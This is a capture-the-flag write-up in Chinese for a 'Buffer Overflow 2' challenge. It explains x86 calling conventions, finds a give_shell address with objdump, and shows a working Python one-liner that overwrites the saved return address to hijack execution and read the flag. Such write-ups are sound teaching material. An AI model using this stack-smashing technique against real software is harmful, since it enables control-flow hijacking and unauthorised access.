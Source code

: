 # Buffer Overflow 2
x86的[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
 * Calling function：
  1. push參數到stack上(reverse order)
  2. push RET位址(目前%eip)
  3. jump到function位址
 * Called function：
  1. push old frame pointer(%ebp)
  2. 把frame pointer(%ebp)設成目前stack指到的位置(%esp)
  3. push local變數
 * Returning function：
  1. reset prev stack frame：%esp = %ebp, %ebp = (%ebp)
  2. jump回RET位址：%eip = 4(%esp)
 ![image](buf_gen1.png)
 * x86是little-endian

## Solve
 * 使用gdb或objdump找到give_shell位址
```
$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```
 * 了解目前stack長相
  * 用objdump 看assembly code
```
$ objdump -d bufferoverflow2
...
<vuln>
push %ebp
...
pushl %0x8(%ebp) ; arument of strcpy
...
push %eax; argument of strcpy
call <strcpy@plt>
...
ret
...
<main>:
push %eax ; ret addr
call 80484e2 <vuln>
...
```
  * stack：
```
  <ret addr>
  <old %ebp>
  <strcpy arg>
  <strcpy arg>
  <buf ...
  16 bytes>
```
  * 取得flag
```
$ ./overflow2 $(python -c 'print "A"*16 + "A"*3*4 + "\xad\x84\x04\x08"')
$ ls
flag.txt    Makefile    overflow2   overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```

## Reference：
 * [駭客雜誌上的教學](http://phrack.org/issues/49/14.html#article)
